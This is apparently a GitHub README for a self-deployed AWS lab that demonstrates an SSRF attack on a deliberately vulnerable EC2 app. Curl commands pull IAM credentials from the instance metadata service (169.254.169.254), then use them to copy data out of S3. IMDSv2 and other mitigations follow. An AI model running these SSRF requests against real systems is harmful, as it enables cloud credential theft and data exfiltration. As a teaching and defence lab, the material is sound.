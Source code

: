 # SSRF vulnerability demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram](/images/diagram.jpg)

## Purpose
Demonstrate a Server Side Request Forgery (SSRF) attack in the AWS environment which results in data rertviing from s3, similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environment which you run terraform from : 
```ShellSession
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```
* [create a key pair ( the public key will be auto imported later to Amazon EC2 by terrafom ).](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/create-key-pairs.html)

* In the following files , set the parameters with your own values  :</br></br>__terraform.tfvars__:</br> `availability_zone` , `key_name`,`public_key`</br></br>__providers.tf__ :</br> `shared_config_files`,`shared_credentials_files`, `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.

2. Run `terraform init` command to prepare your working directory for the next commands.

3. Run `terraform validate` command to check whether the configuration is valid.

4. Run `terraform plan` command to show the changes required by the current configuration.

5. Run `terraform apply` / `terraform apply -auto-approve` to create/update the infrastructure at AWS.

6. If there are no errors from the previous steps , from your terminal, run the following:
<br>__Important__<br> - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses).<br>- In the next steps `bash$` prompt with `"command"` is for commands you need to run.

```ShellSession
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```

7. The `/uptime` page is vulnerable to an SSRF attack: 
We will utilize the URL parameter with the instance metadata URI --> retrieve the attached IAM role --> extract the security credentials as follows: 
```ShellSession
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. From the attached role security credentials output you got in your environment,  copy the values of : 
`AccessKeyId` 
`SecretAccessKey` 
`Token`

9. With AWS CLI - configure a new `aws_ssrf_demo_profile_s3` profile:
```ShellSession
aws configure --profile aws_ssrf_demo_profile_s3
```

10. Set the following parameters in your `"$HOME/.aws/credentials"` file with the value copied at step 8:
For example,
```ShellSession
[aws_ssrf_demo_profile_s3]
aws_access_key_id = ASIASF
aws_secret_access_key = Id+zUu
aws_session_token=IQoJb3JpZ2luX2VjEEUaCXVzLW
```

11. Get the data from s3  :
```ShellSession
# Get the list of s3 buckets
bash$ aws s3 ls --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:47 aws-ssrf-demo-s3-bucket

# Get the bucket content
bash$ aws s3 ls aws-ssrf-demo-s3-bucket --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:48        403 aws_ssrf_demo_data_file.json

# Create a directory
bash$ mkdir data_from_s3
bash$ cd data_from_s3/
bash$ ls -l
total 0

# Retrive the JSON file from the bucket
bash$ aws s3 cp s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json /$HOME/data_from_s3/ --profile aws_ssrf_demo_profile_s3 
download: s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json to ./aws_ssrf_demo_data_file.json

bash$ ls -l
total 8
-rw-r--r--  1 user  group  403 Dec 20 22:55 aws_ssrf_demo_data_file.json


!!! The SSRF attack was successful!!!
```

12. Run `terraform destroy` / `terraform destroy -auto-approve` to remove the infrastructure created at AWS.
## Mitigation Steps



1. Enabling IMDSv2 - enforces requests to use a session token (applied in aws-ec2-metadata-token header ) that can only be used directly from the EC2 instance where that session began.
This step is the first that should be taken as the IMDSv2 service acts as a parallel layer to any application or web app firewall (WAF) vulnerblity / misconfiugration which we might not be aware of yet.
In addtion , the effort to apply it is lower ( updated AWS SDKs and CLIs) compared to the next options.
For our case (before `terraform destroy` ) run :


```ShellSession
aws ec2 modify-instance-metadata-options \
    --instance-id i-1234567898abcdef0 \
    --http-tokens required \
    --http-endpoint enabled
```

For example
```ShellSession
bash$ curl -s http://host:5000
AWS SSRF IMDSv1 demo

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role 

bash$ aws ec2 modify-instance-metadata-options --instance-id i-00d044e5f852fd277 --http-tokens required --http-endpoint enabled --profile aws_ssrf_demo_profile

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>401 - Unauthorized</title>
 </head>
 <body>
  <h1>401 - Unauthorized</h1>
 </body>
</html>

```
[More details on how to configure the instance metadata options](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html).

2. Fix the application  ruuning in the ec2 instance by adding validation all client-supplied input data.
For example

3. Reduce permissions in the IAM role

## Refrences
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)

* https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/
